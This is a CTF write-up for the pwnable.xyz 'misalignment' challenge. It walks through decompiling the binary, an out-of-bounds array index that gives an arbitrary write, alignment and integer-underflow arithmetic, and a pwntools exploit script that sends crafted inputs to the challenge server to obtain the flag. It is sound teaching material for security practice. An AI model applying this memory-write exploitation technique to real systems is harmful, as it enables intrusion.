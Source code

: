 # pwnable.xyz - misalignment
Link to binary: https://pwnable.xyz/redisfiles/challenge_24.gz

Description: *Try not using a debugger for this one.*
 
## binary
The binary is a **64-bit** ELF, with all the basic protections enabled.
![](images/checksec.png)

## ./challenge
Running the binary doesn't output anything and just expects some input. Let's decompile with **IDA** to have a better look.

## IDA
### main()
![](images/main.png)

On a first glance, the program looks similar to the **add** challenge, but seems to require a basic understanding of alignment (thus the challenge name). It reads 3 long integer values from the user in the format of **"%ld %ld %ld"**, where the third value `s[6]` is used as an index to the `s[]` buffer, as seen in *line 11*: `s[s[6] + 7] = s[4] + s[5];` of the `main` function.

Similarly to the **add** challenge, we need to call the `win()` function which prints the flag. Specifically, the program checks if the value of `&s[1] + 7` is equal to `0xb000000b5`, as seen at *line 14*, and if true, it calls `win()`.

## vulnerability
The issue here lies in *line 11*, which allows for **arbitrary writes** through the `s[]` buffer, since we control the value of `s[6]` which is used as an **index**.

## attack plan
We need to write the value `0xb000000b5` at `s[1] + 7`.  

In x86_64 architecture, the data in memory is aligned in **qwords** which are **8 bytes** long and since this is **little-endian** the first byte that we need to write in memory is `0xb5`. The alignment is an issue though, because the first byte must be written at `s[1] + 7` (which is the 8th byte of that qword) and the following bytes should be written at the next qword(s). So in order to write the correct value and at the correct place in memory we need to do **2 separate writes**.

* The first one will be the value `0xb500000000000000`, which will be written at bytes `s[1] + 7` through `s[1] + 0`
* The second one will be the value '0xb000000', which will be written at bytes `s[2] + 7` through `s[2] + 4`.

So after these writes the memory should look like this:  

**s[2]:**
| | | | | b0 | 00 | 00 | 00 |
| :-----------: | :-----------: |  :-----------: | :-----------: | :-----------: | :-----------: |  :-----------: | :-----------: |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |

**s[1]:**
| b5 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| :-----------: | :-----------: |  :-----------: | :-----------: | :-----------: | :-----------: |  :-----------: | :-----------: |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |

We figured out **what** and **where** to write. The program accepts as input 3 long integers where the sum of the first two `s[4] + s[5]` is the value to be written and the third one increased by 7 `s[6] + 7` is the (arbitrary) index of the `s[]` buffer where the value will be written at.  

But there is still one problem.  
Long integer data type in C is 8-byte long (64 bits), which means that it has a value range of `-9,223,372,036,854,775,807` to `9,223,372,036,854,775,807`, if signed like in this case.  
The decimal value of `0xb500000000000000` is `13,042,424,520,864,956,416` which is too large to represent with a signed long integer.  

Luckily, we can use a negative value instead, causing an underflow. To calculate the correct value we can just use:  
`p 0 - 13042424520864956416` in gdb which gives a result of `5404319552844595200`.  
Now if we try to print the negative of that value as hex:  
`p/x -5404319552844595200` we get `$1 = 0xb500000000000000`, so we verified that the value is correct.

## debugging
The description says to not use a debugger, but we're going to ***ch34t***.

First we send the following values:
`-5404319552844595200 0 -6`, where `-6` is the value of `s[6]`, so that we can write at `s[s[6] + 7] = s[-6 + 7] = s[1]`

Disassembling `main()` we see the instruction that writes the value:  
`<+182>:	mov    QWORD PTR [rbp+rax*8-0x98],rdx`  
where `rdx` contains the value to be written and `rax` is the index of the buffer (0 in this case).  
![](images/first_write.png)

Next, we send `184549376 0 -5`, where `184549376` is the decimal value of `0xb000000` and `-5` allows us to write at `s[2]`.  
![](images/second_write.png)

Now we only need to send an invalid input to exit the while loop and we get the flag.

## exploit
```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+51
b *main+221
'''

IP = "svc.pwnable.xyz"
PORT = 30003

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    io.sendline("-5404319552844595200 0 -6")
    io.sendline("184549376 0 -5")
    io.sendline("\0")
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

`FLAG{u_cheater_used_a_debugger}`
  
\>.>